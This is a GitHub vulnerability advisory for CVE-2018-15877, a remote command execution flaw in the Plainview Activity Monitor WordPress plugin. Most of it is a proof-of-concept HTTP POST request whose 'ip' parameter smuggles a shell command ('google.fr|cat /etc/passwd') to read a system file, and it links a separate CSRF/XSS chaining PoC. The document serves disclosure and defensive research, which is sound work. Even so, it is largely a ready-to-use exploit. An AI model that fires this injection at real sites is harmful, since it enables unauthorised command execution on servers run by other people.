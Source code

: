 # RCE with [```Plainview Activity Monitor```](https://fr.wordpress.org/plugins/plainview-activity-monitor/) WordPress plugin  
- Affected: ```Plainview Activity Monitor``` WordPress plugin.
- Version: `20161228` and possibly prior
- Fixed: `20180826`
- Privileges required: yes (but found CSRF & XSS can be combined - see [poc.html](https://github.com/aas-n/CVE/blob/master/CVE-2018-15877/poc.html))
- CVE-ID: ```CVE-2018-15877```
- Author:
  - [Lydéric Lefebvre](https://www.linkedin.com/in/lydericlefebvre/)

## Index

| Title        | Description   |
| ------------- |:-------------|
| [Description](#description)  | Description |
| [PoC](#poc) | PoC |

## Description

Plainview Activity Monitor is vulnerable to OS commanding which allows an attacker to remotely execute commands on underlying system. ```ip``` parameter in ```page=plainview_activity_monitor&tab=activity_tools``` is vulnerable.

![oscommanding](https://image.noelshack.com/fichiers/2018/34/6/1535228244-oscommand.png)

## PoC
```
POST /wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools HTTP/1.1
Host: localhost:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://localhost:8000/wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools
Content-Type: multipart/form-data; boundary=---------------------------13707449992054116824594351796
Content-Length: 311
Cookie: wordpress_70490311fe7c84acda8886406a6d884b=aas%7C1535400075%7CNJ8xAHSGtDKoNgc8tTpSZA6Dn6INW6PkzdG1IVzHX9Z%7C422290d1e6d712e3db5efb9ab4a9aa3df0631e20d5e0dce34ec84ec6f70766c8; PHPSESSID=18d2c15b8f5755104632ec1cc65c56e1; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_70490311fe7c84acda8886406a6d884b=aas%7C1535400075%7CNJ8xAHSGtDKoNgc8tTpSZA6Dn6INW6PkzdG1IVzHX9Z%7C0d8cef0facff651e3b0b7790b6c3f84dad36051b8378487acbe5bf03ebef52af; wp-settings-1=deleted; wp-settings-time-1=1535227275
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------13707449992054116824594351796
Content-Disposition: form-data; name="ip"

google.fr|cat /etc/passwd
-----------------------------13707449992054116824594351796
Content-Disposition: form-data; name="lookup"

Lookup
-----------------------------13707449992054116824594351796--
```
